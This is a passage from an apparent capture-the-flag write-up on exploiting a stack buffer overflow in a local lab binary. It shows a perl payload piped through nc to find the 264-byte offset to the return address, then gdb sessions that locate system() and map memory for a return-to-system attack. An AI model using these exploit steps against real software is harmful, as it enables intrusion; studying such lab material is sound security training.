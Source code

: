 Our assumption was correct. `RIP+0` is pointing 264 bytes into our generated pattern.
Therefore the offset is 264 bytes.

We can verify this. Lets print 264 times 'A', followed with 4 times "B".
```
root@hlUbuntu64:~/challenges/challenge15# perl -e 'print "A" x 264 . "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBroot@hlUbuntu64:~/challenges/challenge15#
root@hlUbuntu64:~/challenges/challenge15# perl -e 'print "A" x 264 . "BBBB"' | nc localhost 5001
```

Result:
```
Stopped reason: SIGSEGV
0x0000000042424242 in ?? ()
```

As the letter B is hex 0x42, we see that we have the correct offset.

## Address of system()

We can just print the address of `system()` after the program started.
Note that it has to begin with `0x40` (the code section is starting at `0x00400000`).
```
root@hlUbuntu64:~/challenges/challenge15# gdb -q ./challenge15
gdb-peda$ print &system
$1 = (<text variable, no debug info> *) 0x4007b0 <system@plt>
```

A wrong address:
```
gdb-peda$ print &system
$1 = (<text variable, no debug info> *) 0x7ffff7a53380 <__libc_system>
```

Here we just print the address of system in the memory mapped LIBC-2.23.so:
```
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x00401000         r-xp      /root/challenges/challenge15/challenge15
0x00601000         0x00602000         r--p      /root/challenges/challenge15/challenge15
0x00602000         0x00603000         rw-p      /root/challenges/challenge15/challenge15
0x00603000         0x00624000         rw-p      [heap]
0x00007ffff7a0e000 0x00007ffff7bce000 r-xp      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bce000 0x00007ffff7dcd000 ---p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p      mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fee000 0x00007ffff7ff1000 rw-p      mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p      mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p      [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp      [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p      mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]
```
